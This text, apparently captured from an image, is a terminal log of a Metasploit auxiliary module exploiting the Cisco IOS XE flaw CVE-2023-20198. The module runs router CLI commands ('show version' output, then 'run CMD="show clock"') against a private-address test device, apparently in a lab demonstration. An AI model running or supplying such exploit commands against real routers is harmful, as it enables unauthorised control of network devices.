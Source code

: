 ```
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2023 by Cisco Systems, Inc.
Compiled Wed 25-Jan-23 16:07 by mcpre
Cisco IOS-XE software, Copyright (c) 2005-2023 by cisco Systems, Inc.
All rights reserved.  Certain components of Cisco IOS-XE software are
licensed under the GNU General Public License ("GPL") Version 2.0.  The
software code licensed under GPL Version 2.0 is free software that comes
with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
GPL code under the terms of GPL Version 2.0.  For more details, see the
documentation or "License Notice" file accompanying the IOS-XE software,
or the applicable URL provided on the flyer accompanying the IOS-XE
software.
ROM: IOS-XE ROMMON
test_c800v uptime is 1 hour, 43 minutes
Uptime for this control processor is 1 hour, 44 minutes
System returned to ROM by reload
System image file is "bootflash:packages.conf"
Last reload reason: reload
This product contains cryptographic features and is subject to United
States and local country laws governing import, export, transfer and
use. Delivery of Cisco cryptographic products does not imply
third-party authority to import, export, distribute or use encryption.
Importers, exporters, distributors and users are responsible for
compliance with U.S. and local country laws. By using this product you
agree to comply with applicable laws and regulations. If you are unable
to comply with U.S. and local laws, return this product immediately.
A summary of U.S. laws governing Cisco cryptographic products may be found at:
http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
If you require further assistance please contact us by sending email to
export@cisco.com.
License Level: 
License Type: Perpetual
Next reload license Level: 
Addon License Level: 
Addon License Type: Subscription
Next reload addon license Level: 
The current throughput level is 10000 kbps 
Smart Licensing Status: Registration Not Applicable/Not Applicable
cisco C8000V (VXE) processor (revision VXE) with 2027875K/3075K bytes of memory.
Processor board ID 9VM6T5CQNTE
Router operating mode: Autonomous
3 Gigabit Ethernet interfaces
32768K bytes of non-volatile configuration memory.
3965316K bytes of physical memory.
11526144K bytes of virtual hard disk at bootflash:.
Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="show clock"
[*] Running module against 192.168.86.108

*17:36:50.722 UTC Mon Mar 3 2025
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```